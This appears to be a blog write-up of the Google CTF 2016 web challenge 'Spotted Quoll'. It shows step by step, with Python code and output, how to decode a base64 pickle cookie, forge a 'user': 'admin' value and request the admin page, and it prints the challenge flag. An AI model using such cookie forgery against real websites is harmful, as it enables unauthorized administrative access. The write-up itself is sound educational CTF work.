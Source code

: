 ```yaml
---
layout: post
title: "Google CTF 2016 : Spotted Quoll"
date: 2016-05-01 16:25:06 -0700
comments: true
author: aaron
slug: spotted-quoll
category:
- 2016
- googlectf
---
```


**Category:** Web
**Points:** 50
**Solves:** 413
**Description:**

> [This](https://spotted-quoll.ctfcompetition.com/) blog on Zombie research looks like it might be interesting - can you break into the /admin section?


# Investigate
I start by enabling developer toolbar on Google Chrome and start capturing the network traffic.

I notice an 'Admin' button at the top of the page.  When I click on it, I just get redirected to the homepage and notice my URL bar updates as followed:

```
https://spotted-quoll.ctfcompetition.com/#err=user_not_found
```

However, I notice my browser downloaded a cookie at some point.

It looks like the cookie was retrieved from a 'GET' request at '/getCookie'.  This information will be useful when implemeting the script later.

```
Cookie obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu
```

I have heard of 'pickle' before.  It's a format for serializing data, usually over a network.  Very similar to JSON.  I tried loading the above data directly into pickle.  But unfortunately, it threw an exception.

However, the pickle could be simply encoded in another format, perhaps base64....

```
>>> from base64 import b64decode
>>> b64decode('KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu')
"(dp1\nS'python'\np2\nS'pickles'\np3\nsS'subtle'\np4\nS'hint'\np5\nsS'user'\np6\nNs."
```

Ok, that looks a lot more like pickle data to me, let's load it up in Python.

# Code

Load the pickle data

```python
#Decode the base64 pickle
pickb64 = cookie['obsoletePickle']
pick = b64decode(pickb64)

#Write the pickle to a tmp file
tmpf = 'tmp.p'
f = open(tmpf, 'wb')
f.write(pick)
f.close()

#load the pickle
obsoletePickle = pickle.load(open('tmp.p', 'rb'))
print('%s' % str(obsoletePickle))
```

Print the pickle data

```
{'python': 'pickles', 'subtle': 'hint', 'user': None}
```

# Exploit
From the formatted pickle data, it should be pretty clear what's going on.  The 'user' field is set to None.  This is because we are not logged in.  I think we can trick the webiste!  Why don't we login as the admin by setting our 'user' attribute to 'admin'.

Modify the pickle data so that it reads...

```
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}
```

Modify pickle data and dump back to raw data

```python
obsoletePickle['user'] = 'admin'

#Write to spoofed pickle to a new file
pickle.dump(obsoletePickle, open('spoofed.p', 'wb'))
spooff = 'spoofed.p'

#Read back as plain data
f = open(spooff, 'rb')
pick = f.read()
f.close()
```

Create the new cookie (encoded in base64)

```python
spoofed_cookie = dict(obsoletePickle=b64encode(pick))
```

Perform the attack to login to the admin page 'admin'

```
r = requests.get(URL + 'admin', verify=False, cookies=spoofed_cookie)
print(r.text)
```

# Script Output
```

HTML:
<html>
<head>
  <link href="/static/bootstrap.min.css" rel="stylesheet">
  <link href="/static/jumbotron-narrow.css" rel="stylesheet">
</head>
<body>

    <div class="container">
      <div class="header clearfix">
        <nav>
          <ul class="nav nav-pills pull-right">
            <li role="presentation" class="active"><a href="#">./boringblog</a></li>
            <li role="presentation"><a href="/admin">Admin</a></li>
          </ul>
        </nav>
        <h3 class="text-muted">yawn</h3>
      </div>

      <div class="jumbotron">
        <h1>My Zombie Research Project</h1>
        <p class="lead">./boringblog</p>
      </div>

      <div class="row marketing">
        <div class="col-lg-12">
          <h3>Blog Development - 20th January, 2016</h3>
          <p>I don't have much content yet, except for my admin page. Stay tuned for more information</p>
        </div>
      </div>
      <iframe style="border: 0;" src="/getCookie"></iframe>
    </div> <!-- /container -->

</body>
</html>

Cookies:
<RequestsCookieJar[<Cookie obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu for spotted-quoll.ctfcompetition.com/>]>

Real Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': None}

Spoofed Admin Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}

Your flag is CTF{but_wait,theres_more.if_you_call} ... but is there more(1)? or less(1)?

```


Flag

```
CTF{but_wait,theres_more.if_you_call}
```

[Python script](https://github.com/b0tchsec/CTF-Fanny-Pack/blob/master/solutions/google_2016/SpottedQuoll/pwn.py)
